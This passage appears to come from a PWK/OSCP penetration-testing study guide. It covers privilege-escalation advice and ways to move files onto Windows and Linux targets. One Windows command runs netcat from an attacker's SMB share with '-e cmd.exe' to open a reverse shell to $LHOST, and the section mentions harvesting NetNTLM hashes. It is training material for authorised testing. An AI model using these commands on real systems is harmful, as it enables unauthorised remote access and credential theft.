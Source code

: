 > Note: If you run out of options for elevation to root, consider the  fact that you may have to move laterally to another user first.

Again, kernel exploits should be a last resort for PWK privilege escalation. Identifying the kernel version with `uname` and tossing that into searchsploit should be helpful on that front, but be prepared to start struggling with all types of compiling issues! 💀

## File Transfers

There are many tools available for easy file transfers, but these are some of my favorites.

### Windows

For Windows, I almost exclusively run or copy from my SMB share. In  some cases it works, in some it doesn’t. I always try commands in this  order:

1. Impacket-smbserver

   ```bash
   impacket-smbserver secure .
      
   # On target system - copy files
   copy \\$LHOST\secure\nc64.exe .
   ```

   `

2. Impacket-smbserver (with SMBv2 support) Seems to work in some cases, if you get a “not subscriptable” error otherwise.

   ```bash
   impacket-smbserver secure . -smb2support
      
   # On target system - spawn shell straight from share
   \\$LHOST\secure\nc64.exe $LHOST $LPORT -e cmd.exe
   ```

   `

3. SMB Daemon Works most of the time, but is some hassle to set up and doesn’t give you NetNTLM hashes as a bonus.

   ```bash
   service smbd start
   ```

   `

### Linux

I usually use a simple HTTP server from python to `curl` or `wget` files on demand.

```bash
python3 -m http.server 80 # Starts a web server in the current directory on port 80
```

There are some nice alternatives in case this is not possible. Examples are base64-encoding and netcat.
